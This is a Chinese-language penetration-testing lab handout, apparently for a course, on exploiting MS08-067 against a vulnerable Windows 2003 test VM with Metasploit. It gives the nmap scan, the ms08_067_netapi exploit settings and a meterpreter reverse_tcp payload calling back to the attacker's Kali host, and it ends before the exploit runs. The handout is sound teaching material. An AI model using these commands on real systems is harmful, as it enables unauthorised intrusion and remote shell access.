





# 实验xx利用MS08_067漏洞渗透win2k3sp0

##  1 实验目的

1.掌握渗透测试框架 metasploit的基本用法
2.理解ms08_067漏洞利用的工作原理

##  2 注意：
kali2019与kali2中的exploit和payload不同，不能再利用kali201902成功渗透我windows 2k3 metasploitable。可以尝试使用ms17-010，但未验证实效。

##  3 实验内容

1.使用nmap扫描虚拟局域网内的活跃主机IP地址。
2.使用kali 2 虚拟机中的metasploit-framework对 win2k3 metasploitable虚拟机进行渗透。
3.根据实验步骤完成实验报告

##  4 实验步骤

1.打开虚拟机kali 201902。

2.打开虚拟机 win2k3 metasploitable。




3.确保这两台虚拟机都处于vmnet 8 虚拟网络中，即子网地址10.10.10.0/24 。


4.使用命令```ifconfig```查看kali的IP地址。


可知其IP地址为10.10.10.133。

5.在kali中，打开terminal，运行下列命令，使用 nmap 对局域网内活跃主机进行扫描。
``` nmap -sN 10.10.10.0/24```


可知win2k3虚拟机的IP地址为10.10.10.130。

6.打开kali中的metasploit-framework.



7.运行下列命令，加载渗透代码。
```
# 加载渗透代码
use exploit/windows/smb/ms08_067_netapi
# 显示选项
show options
```



8.设置渗透选项。
```
# 设置RHOST
msf5 exploit(windows/smb/ms08_067_netapi) > set rhosts 10.10.10.130
# 设置target
msf5 exploit(windows/smb/ms08_067_netapi) > set target 3
# 显示选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options
```




9.执行下列命令，加载攻击载荷。
```
# 设置windows/meterpreter/reverse_tcp为攻击载荷
msf5 exploit(windows/smb/ms08_067_netapi) > set payload windows/meterpreter/reverse_tcp

# 设置载荷参数lhost
msf5 exploit(windows/smb/ms08_067_netapi) > set lhost 10.10.10.133

# 查看参数
msf5 exploit(windows/smb/ms08_067_netapi) > show options

```



